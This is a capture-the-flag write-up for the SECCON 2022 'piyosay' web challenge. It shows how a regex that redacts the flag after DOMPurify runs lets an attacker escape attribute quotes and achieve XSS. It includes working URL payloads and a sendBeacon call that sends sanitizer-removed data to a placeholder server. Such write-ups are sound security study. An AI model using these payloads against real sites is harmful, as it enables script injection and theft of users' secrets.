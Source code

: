 # piyosay writeup | SECCON 2022
> I know the combination of DOMPurify and Trusted Types is a perfect defense for XSS attacks.
> 
> http://piyosay.seccon.games:3000

## Quick overview

There is a [Trusted Types](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/trusted-types) policy for creating HTMLs which makes use of [DOMPurify](https://github.com/cure53/DOMPurify). 

```js
    trustedTypes.createPolicy("default", {
      createHTML: (unsafe) => {
        return DOMPurify.sanitize(unsafe)
          .replace(/SECCON{.+}/g, () => {
            // Delete a secret in RegExp
            "".match(/^$/);
            return "SECCON{REDACTED}";
          });
      },
    });
``` 

However, there is a bug that replaces flag with `SECCON{REDACTED}` and we can abuse it to escape from quotes. Imagine a safe code like: 
```html
SECCON{<img id="}
  <style/onload=alert()>">
```

After replacement, it will become:

```html
SECCON{REDACTED}
<style/onload=alert()>">
```

which is an XSS - http://piyosay.seccon.games:3000/result?message=asdSECCON{%3Cimg+id%3D%22}%0a%3Cstyle/onload=alert()%3E%22%3E.

However, the flag is removed from the cookie so we need to somehow access it. We found out that `DOMPurify.removed` will contain the removed flag, so we just read it and sent to our server, with:

```html
SECCON{<img id='}
  <style/onload=navigator.sendBeacon("https://server/leak",DOMPurify.removed[0].element.innerText>'><iframe>
```

After sending `http://web:3000/result?message=SECCON{<img/id='}%0a<style/onload=navigator.sendBeacon("https://server/leak",DOMPurify.removed[0].element.innerText)>'><iframe>` to the bot, we've got the flag:

**SECCON{w0w_yoU_div3d_deeeeeep_iNto_DOMPurify}**
